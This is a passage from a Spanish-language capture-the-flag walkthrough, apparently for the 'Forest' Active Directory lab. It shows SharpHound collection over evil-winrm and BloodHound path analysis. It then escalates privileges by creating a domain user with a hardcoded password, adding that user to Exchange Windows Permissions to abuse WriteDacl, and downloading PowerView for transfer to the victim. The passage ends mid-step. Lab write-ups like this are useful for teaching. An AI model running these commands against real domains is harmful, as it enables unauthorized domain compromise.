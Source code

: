         ```bash
        upload SharpHound.ps1
        ```

    - lo lanzamos desde el evil-winrm

        ```bash
        Import-Module .\SharpHound.ps1
        Invoke-BloodHound -CollectionMethod All
        dir
        ```

    - ahora que tenemos el zip nos lo descargamos

        ```bash
        download 20210812133453_BloodHound.zip
        ```

1. Drag & Drop del fichero **.zip** hacia la ventana del bloodhound y en el Analysis tab

    - Find all Domains Admins -> Show Administrator of the domain
    

Aqui hay una via potencial (un camino) que nos permitte convertir en usuario administrador

## Privilege Escalation {-}
![Forest-bloodhoud](/assets/images/Forest-bloodhound.png) 

### Rootear la maquina {-}

El usuario svc-alfresco es miembro del groupo service accounts que es miembro de grupo privileged accounts que es miembro 
del grupo account operators.

Este grupo account operators tiene permissions de typo Generic all sobre el grupo Exchange windows permissions. Si buscamos
por internet lo que es el account operators vemos que es un grupo de verdad que permitte crear usuarios y privilegios. Lo comprobamos
en el evil-winRM

```bash
net user s4vitar s4vit4r123$! /add /domain
net user s4vitar
```

Effectivamente podemos crear usuarios.

Si seguimos analysando el BloodHound vemos que el grupo exchange Windows permission tiene capacidad de typo WriteDacl sobre el dominio.
Si hacemos un click derecho sobre el **WriteDacl** podemos mirar mas informaciones

```{r, echo = FALSE, fig.cap="Bloodhound abuse WriteDacl", out.width="90%"}
    knitr::include_graphics("images/Forest-Abuse_writedacl.png")

![Forest-Abuse_writedacl](/assets/images/Forest-Abuse_writedacl.png) 
    ```bash
    net group
    net group "Exchange Windows Permissions" s4vitar /add
    net user s4vitar
    ```

1. Passamos a la maquina victima el powerView

    - en la maquina de atacante

        ```bash
        wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
        python3 -m http.server 80
```